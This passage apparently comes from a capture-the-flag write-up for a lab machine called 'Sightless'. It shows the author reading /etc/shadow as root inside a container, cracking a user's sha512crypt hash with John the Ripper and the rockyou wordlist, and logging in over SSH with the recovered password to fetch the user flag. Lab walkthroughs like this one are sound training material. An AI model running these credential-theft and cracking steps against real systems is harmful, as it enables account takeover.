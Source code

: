 As root I can read */etc/shadow*, normally inside of docker containers this root password is random and useless to try and crack, but here we see a user has in fact setup an account inside of this container. 

```bash
root@c184118df0a6:/var/lib/sqlpad# cat /etc/shadow
cat /etc/shadow
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```

```bash
john hash --wordlist=/opt/wordlists/rockyou.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
insaneclownposse (?)
1g 0:00:00:22 DONE (2024-09-10 00:07) 0.04401g/s 2580p/s 2580c/s 2580C/s kruimel..galati
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

```bash
ssh michael@sightless.htb

The authenticity of host 'sightless.htb (10.129.178.80)' can't be established.
ECDSA key fingerprint is SHA256:6Th9DEMTEEexziNdvX2NPoVqYgfy0tKfU7N+V1IVVoM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'sightless.htb,10.129.178.80' (ECDSA) to the list of known hosts.
michael@sightless.htb's password: 
Last login: Tue Sep  3 11:52:02 2024 from 10.10.14.23
michael@sightless:~$ cat user.txt
f1324e21fcd53-------------------
```
